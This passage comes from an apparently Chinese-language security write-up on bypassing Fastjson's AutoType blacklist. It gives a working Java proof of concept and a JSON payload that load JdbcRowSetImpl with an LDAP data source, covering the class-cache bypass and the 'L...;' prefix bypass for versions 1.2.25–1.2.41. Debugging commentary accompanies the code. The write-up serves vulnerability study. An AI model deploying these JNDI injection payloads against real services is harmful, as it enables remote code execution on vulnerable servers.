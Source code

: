 ```bash
package EXPFastJson;

import com.alibaba.fastjson.JSON;

public class FastJsonBypass1247 {
    public static void main(String[] args){
        //第一步：反序列化一个 Class 类，值为恶意类
        //用之前 payload 从缓存中继续加载
        String s = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:8085/cgQuBZlq\",\"AutoCommit\":\"false\"}}";
        JSON.parseObject(s);
    }
}
```

### 调试：

我们第一步是加载 Class 类，可以看到在缓存当中找到了，然后最后返回了 Class 类：

[![](assets/1701612260-b541436dab2a46a1b290f6f8a00b91b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230524-59d6854e-296a-1.png)

第二步我们就查到了对应的反序列化器是 MiscCodec，然后调到 MiscCodec 类下的 deserialze 函数：

[![](assets/1701612260-e9783c9374bb973f9852cb25fc9af55e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230529-5cb9e102-296a-1.png)

然后在这里判断 lexer.stringVal() 里面是否存在 val，不存在就抛出异常

[![](assets/1701612260-3da75c4237739830ae9725367712b5a1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230534-5fcdb328-296a-1.png)

然后将我们的恶意类放入 strVal 里面进行 loadClass 加载，这里我们也可以发现在开启 AutoTyoe 的时候也存在绕过黑名单的一个形式：

[![](assets/1701612260-95e3c180c35fe160ac68ae9759d301d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230540-6312c8ca-296a-1.png)

所以这样的话 mapping 就有了我们加载的恶意类，然后在调用之前的恶意类我们就能够直接进行加载了。

## FastJson1.2.25-1.2.41 绕过：

我们上面提到了在缓存中获取类的下面有两个判断，也就是说在我们开启 AutoType 的情况下可以用下面两种方式来进行绕过：

*   如果以`[`开头则去掉`[`后进行类加载（在之前 Fastjson 已经判断过是否为数组了，实际走不到这一步）
*   如果以`L`开头，以`;`结尾，则去掉开头和结尾进行类加载

所以我们用下面这个就可以绕过黑名单进行加载，开启 AutoType：

```bash
import com.alibaba.fastjson.parser.ParserConfig;
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

```bash
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","DataSourceName":"ldap://127.0.0.1:8085/rNMfFuPI","AutoCommit":"false"}
```

